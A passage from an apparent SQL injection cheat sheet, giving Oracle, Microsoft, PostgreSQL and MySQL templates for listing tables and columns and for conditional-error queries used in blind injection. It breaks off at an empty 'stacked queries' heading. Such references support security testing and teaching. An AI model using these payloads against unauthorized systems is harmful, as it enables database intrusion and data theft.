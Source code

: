 Database contents
-----------------

You can list the tables that exist in the database, and the columns that those tables contain.

<table>
<tr>
    <td><strong>Oracle</td>
    <td>SELECT * FROM all_tables
    <br>SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE' </td>
</tr>
<tr>
    <td><strong>Microsoft</td>
    <td>SELECT * FROM information_schema.tables
    <br> SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'</td>
</tr>
<tr>
    <td><strong>PostgreSQL</td>
    <td>SELECT * FROM information_schema.tables
    <br> SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'</td>
</tr>
<tr>
    <td><strong>MySQL</td>
    <td>SELECT * FROM information_schema.tables
    <br> SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE' </td>
</tr>
</table>

Conditional errors
------------------

You can test a single boolean condition and trigger a database error if the condition is true.

<table>
<tr>
    <td><strong>Oracle</td>
    <td>SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual </td>
</tr>
<tr>
    <td><strong>Microsoft</td>
    <td>SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END</td>
</tr>
<tr>
    <td><strong>PostgreSQL</td>
    <td>1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN CAST(1/0 AS INTEGER) ELSE NULL END)</td>
</tr>
<tr>
    <td><strong>MySQL</td>
    <td>SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a') </td>
</tr>
</table>

Batched (or stacked) queries
----------------------------
